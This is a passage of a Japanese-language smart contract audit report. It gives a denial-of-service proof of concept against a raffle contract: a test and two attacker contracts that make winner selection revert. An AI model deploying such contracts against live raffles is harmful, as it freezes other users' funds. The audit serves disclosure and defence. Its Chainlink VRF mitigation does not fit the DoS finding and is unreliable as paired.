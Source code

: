 - すべての状況で、賞金を配布し、新しいラウンドを開始することが不可能になるため、抽選は永遠に停止します。

\pagebreak

**概念実証:**<br />

テストケース：

```javascript
function testSelectWinnerDoS() public {
    vm.warp(block.timestamp + duration + 1);
    vm.roll(block.number + 1);

    address[] memory players = new address[](4);
    players[0] = address(new AttackerContract());
    players[1] = address(new AttackerContract());
    players[2] = address(new AttackerContract());
    players[3] = address(new AttackerContract());
    puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

    vm.expectRevert();
    puppyRaffle.selectWinner();
}
```

攻撃オプション 1：

```javascript
contract AttackerContract {
    // Implements a `receive` function that always reverts
    receive() external payable {
        revert();
    }
}
```

攻撃オプション 2：

```javascript
contract AttackerContract {
    // Implements a `receive` function to receive prize, but does not implement `onERC721Received` hook to receive the NFT.
    receive() external payable {}
}
```

**推奨される軽減策:**<br />

- 数学的に安全な乱数を得るために、Chainlink VRF（Verifiable Random Function）を使用して安全な乱数を取得し、それに基づいて当選者を選択してください。[Chainlink VRF](https://docs.chain.link/vrf)

- これは NFT のレアリティが決定される方法にも適用する必要があります。特定の NFT を獲得するための勝利の操作を避けるためです。

#

\pagebreak

## 中
